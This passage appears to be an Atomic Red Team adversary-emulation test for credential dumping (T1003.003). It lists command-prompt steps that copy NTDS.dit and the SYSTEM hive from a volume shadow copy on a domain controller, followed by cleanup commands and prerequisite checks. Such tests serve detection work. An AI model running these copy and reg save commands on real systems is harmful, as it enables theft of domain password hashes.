 
#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
copy #{vsc_name}\Windows\NTDS\NTDS.dit #{extract_path}\ntds.dit
copy #{vsc_name}\Windows\System32\config\SYSTEM #{extract_path}\VSC_SYSTEM_HIVE
reg save HKLM\SYSTEM #{extract_path}\SYSTEM_HIVE
```

#### Cleanup Commands:
```cmd
del "#{extract_path}\ntds.dit"        >nul 2> nul
del "#{extract_path}\VSC_SYSTEM_HIVE" >nul 2> nul
del "#{extract_path}\SYSTEM_HIVE"     >nul 2> nul
```



#### Dependencies:  Run with `command_prompt`!
##### Description: Target must be a Domain Controller
##### Check Prereq Commands:
```cmd
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\ProductOptions  /v ProductType | findstr LanmanNT
```
##### Get Prereq Commands:
```cmd
echo Sorry, Promoting this machine to a Domain Controller must be done manually
```
##### Description: Volume shadow copy must exist
##### Check Prereq Commands:
```cmd
if not exist #{vsc_name} (exit /b 1)
```
##### Get Prereq Commands:
```cmd
echo Run "Invoke-AtomicTest T1003.003 -TestName 'Create Volume Shadow Copy with vssadmin'" to fulfill this requirement
```
##### Description: Extract path must exist
##### Check Prereq Commands:
```cmd
if not exist #{extract_path} (exit /b 1)
```
##### Get Prereq Commands:
```cmd
mkdir #{extract_path}
```




<br/>
<br/>
